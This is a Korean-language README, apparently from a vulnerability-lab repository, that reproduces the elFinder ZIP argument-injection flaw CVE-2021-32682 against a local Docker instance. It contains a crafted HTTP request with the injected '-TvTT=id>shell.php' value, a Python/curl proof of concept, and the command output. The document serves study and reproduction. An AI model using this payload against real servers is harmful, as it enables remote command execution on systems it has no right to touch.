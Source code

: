 # elFinder ZIP 인자 주입 취약점으로 인한 Command Injection (CVE-2021-32682)
* elFinder는 jQuery UI 기반의 웹 오픈소스 파일 관리자입니다.
* elFinder 2.1.58 이하 버전에서 ZIP 아카이브 처리 과정 중 인자 주입 취약점이 발견되었습니다.
* 공격자는 최소한의 구성으로 elFinder PHP Connector를 호스팅하는 서버에서 임의의 명령을 실행할 수 있습니다.
## 환경 구성 및 실행
1. 다음 명령어로 elFinder 2.1.58을 실행합니다.
```
docker compose up -d
```
2. 서버 시작 후 elFinder의 메인 페이지를 `http://127.0.0.1:8080`에서 확인할 수 있습니다.
## 취약점 재현
취약점 재현을 위하여 먼저 두 개의 파일을 만들어야 합니다.

`1.txt` 파일을 생성합니다.

![image](./1.png)


해당 파일을 ZIP 포멧으로 압축한 후, 파일 이름을 `2.zip`으로 변경합니다.

![image](./2.png)

`1.txt`와 `2.zip`을 확인합니다.

![image](./3.png)


다음 HTTP request를 전송합니다.
```
GET /php/connector.minimal.php?cmd=archive&name=-TvTT=id>shell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip HTTP/1.1
Host: 127.0.0.1:8080
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```
다음과 같은 `poc.py`를 통해 request를 전송할 수 있습니다.
```
import subprocess

cmd = '''
curl -X GET "http://127.0.0.1:8080/php/connector.minimal.php?cmd=archive&name=-TvTT=id%3Eshell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip"   -H "Host: 127.0.0.1:8080"   -H "Accept: application/json, text/javascript, */*; q=0.01"   -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36"   -H "X-Requested-With: XMLHttpRequest"   -H "Referer: http://127.0.0.1:8080/"   -H "Accept-Encoding: gzip, deflate"   -H "Accept-Language: en-US,en;q=0.9"   -H "Connection: close"
'''

subprocess.run(cmd, shell=True, stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
```
해당 request에는 다음과 같은 정보가 포함되어 있습니다.
* `id>shell.php`로 명령어를 실행하고 출력을 저장합니.
* base64 디코딩 시 `target[0]`의 값 `MS50eHQ`는 `1.txt`, `target[1]`의 값 `Mi56aXA`는 `2.zip`을 의미합니다.


request 전송 이후 `http://127.0.0.1:8080/#elf_l1_Lw`에서 `shell.php`를 확인합니다.

![image](./4.png)

`shell.php`를 열어 명령어가 실행된 결과를 확인합니다.
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



